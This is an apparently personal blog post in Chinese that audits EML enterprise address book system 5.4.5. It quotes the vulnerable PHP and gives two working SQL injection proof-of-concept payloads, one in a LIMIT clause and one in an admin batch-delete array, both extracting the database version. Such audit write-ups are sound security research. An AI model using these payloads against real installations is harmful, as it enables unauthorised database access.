 ```yaml
---
title: EML企业通讯录管理系统两处注入分析
tags: 代码审计
---
```


# 0x00 前言

最近一直在用onenote整理笔记，结果发现博客已经荒了很久了，就把审过的漏洞贴上来吧。虽然没有什么技术含量，但总归是一点记录。

# 0x01 漏洞环境

CMS：EML企业通讯录管理系统

版本：5.4.5

官方网站：http://bbs.emlsoft.com 

更新时间：2018.7.26 

测试环境：windows10+phpstudy+php5.5

# 0x02 漏洞分析

### 过滤函数：

对于小cms的sql注入的审计，一般存在两个方向：

1. 系统过滤机制的正面bypass;
2. 过滤的盲区(如：GPC之外的注入、limit/orderby之后的注入、二次入库的注入以及忘记过滤的地方等.);

当然，后者出现的概率更大并且也更好挖一点，先来看看过滤函数：

/lib/func.class.php:(27-37行)

```php
//安全验证
function _RunMagicQuotes(&$svar){
	if(!get_magic_quotes_gpc())	{
		if( is_array($svar) ){
			foreach($svar as $k => $v) $svar[$k] = _RunMagicQuotes($v);
		}else{
			$svar = addslashes($svar);
		}
	}
	return $svar;
}
```

未开启GPC则使用addslashes，也考虑到了数组的情况。感觉只要使用得当，就应该没有什么问题。

### 第一处注入：

action/action.address.php：（60-68行）

```php
 //设置分页
	if($_POST[numPerPage]==""){$numPerPage="10";}else{$numPerPage=$_POST[numPerPage];}
	if($_GET[pageNum]==""||$_GET[pageNum]=="0" ){$pageNum="0";}else{$pageNum=($_GET[pageNum]-1)*$numPerPage;}
	$num=mysql_query("select * from eml_address_list where 1=1 $search");//当前频道条数
	$total=mysql_num_rows($num);//总条数	
	$page=new page(array('total'=>$total,'perpage'=>$numPerPage));

 //查询
	$sql="select * from eml_address_list  where 1=1  $search order by id desc limit $pageNum,$numPerPage";
```

$pageNum $numPerPage 未进行过滤处理直接带入了查询语句，但是前者应该无法利用：`（$pageNum=($_GET[pageNum]-1)*$numPerPage;）`

后者位于limit中并且存在order by，([参考文章](http://www.freebuf.com/articles/web/57528.html))可使用如下利用方式。

POC：

`numPerPage=1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),0x7e);`

![](/images/sqli1.PNG)

### 第二处注入：

action/action.address.php：（186-206行)

```php
//批量删除
if($do=="del_all"){
	If_rabc($action,$do); //检测权限
	is_admin($action,$do); //检测权限
	$arr = $_POST["item"];
	$count_arr=count($arr); 
	if($count_arr==0){
	echo error($msg); 
	exit;
	}
	$str = implode("','",$arr);//拼接字符
	
	$sql = "delete from eml_address_list WHERE id in('{$str}')";
	
	if($db->query($sql)){echo success($msg,"?action=address");}else{echo error($msg);}
```

item参数通过POST方法传入，使用implode函数进行数组=>字符串，然后未经过滤直接进入delete语句执行，同样是忘记使用过滤函数的问题，不同点是必须传入数组才能利用，当然此处检测了is_admin，需要后台权限才能利用，比上一处利用条件更苛刻。

POC:

`item[]=2') or updatexml(1,concat(0x7e,(version())),0) -- dd`

![](/images/sqli2.PNG)

# 0x03 总结

感觉简单的太简单，难的又审不动，要走的路还很长呢。。。 
